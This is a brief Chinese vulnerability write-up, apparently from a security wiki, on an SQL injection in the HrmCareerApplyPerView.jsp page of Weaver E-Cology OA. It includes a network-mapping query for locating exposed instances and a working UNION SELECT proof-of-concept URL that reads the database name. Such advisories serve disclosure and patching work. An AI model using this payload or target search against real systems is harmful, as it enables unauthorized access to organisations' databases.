 # 泛微OA E-Cology HrmCareerApplyPerView.jsp SQL注入漏洞

## 漏洞描述

泛微OA E-Cology HrmCareerApplyPerView.jsp 文件存在SQL注入漏洞，攻击者通过漏洞可以获取服务器数据库敏感文件

## 漏洞影响

泛微OA E-Cology </a-checkbox></br>

## 网络测绘

app="泛微-协同办公OA"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1656734700582-b9fa4bec-ab37-4bbb-b1fb-4ccccda497df.png)

验证POC

```php
/pweb/careerapply/HrmCareerApplyPerView.jsp?id=1 union select 1,2,sys.fn_sqlvarbasetostr(HashBytes('MD5','abc')),db_name(1),5,6,7
```

![img](/assets/PeiQi-Wiki/img/1656734767484-f94594ff-00ff-444f-8668-b9108e63ed02.png)
